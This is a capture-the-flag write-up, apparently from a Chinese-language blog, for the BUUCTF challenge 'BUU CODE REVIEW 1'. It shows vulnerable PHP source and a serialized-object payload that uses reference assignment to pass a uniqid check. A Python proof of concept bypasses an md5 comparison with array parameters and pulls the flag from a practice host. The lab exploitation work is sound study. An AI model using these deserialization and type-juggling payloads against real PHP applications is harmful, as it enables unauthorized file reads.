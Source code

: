 # BUUCTF - BUU CODE REVIEW 1 Writeup


```php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/10/6
 * Time: 8:04 PM
 */

highlight_file(__FILE__);

class BUU {
   public $correct = "";
   public $input = "";

   public function __destruct() {
       try {
           $this->correct = base64_encode(uniqid());
           if($this->correct === $this->input) {
               echo file_get_contents("/flag");
           }
       } catch (Exception $e) {
       }
   }
}

if($_GET['pleaseget'] === '1') {
    if($_POST['pleasepost'] === '2') {
        if(md5($_POST['md51']) == md5($_POST['md52']) && $_POST['md51'] != $_POST['md52']) {
            unserialize($_POST['obj']);
        }
    }
}
```

一共要读取5个参数：get参数pleaseget，post参数pleasepost、md51、md52和obj

> 考点1：php强弱类型比较
> 考点2：uniqid() 函数 //基于以微秒计的当前时间，生成一个唯一的 ID。
> 考点3：引用赋值

# php payload

```php
class BUU{
    public $correct = "";
    public $input = "";
}
$b = new BUU();
$b->input = &$b->correct;
echo serialize($b);
# O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}
```

# poc

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-
import requests
import re
flag = ''
url = 'http://1047cab0-ea8a-4945-8421-86af8b408454.node4.buuoj.cn:81/?pleaseget=1'
data = {'pleasepost':'2','md51[]':'1','md52[]':'2','obj':'O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}'} #md5值比较绕过有两种方法：1.互联网搜索两个MD5值为0e开头的字符串;2.使用list绕过
res = requests.post(url,data)
if 'flag{' in res.text:
    flag = re.search(r'flag\{(.*)\}',res.text)[0]
    print(flag)
```

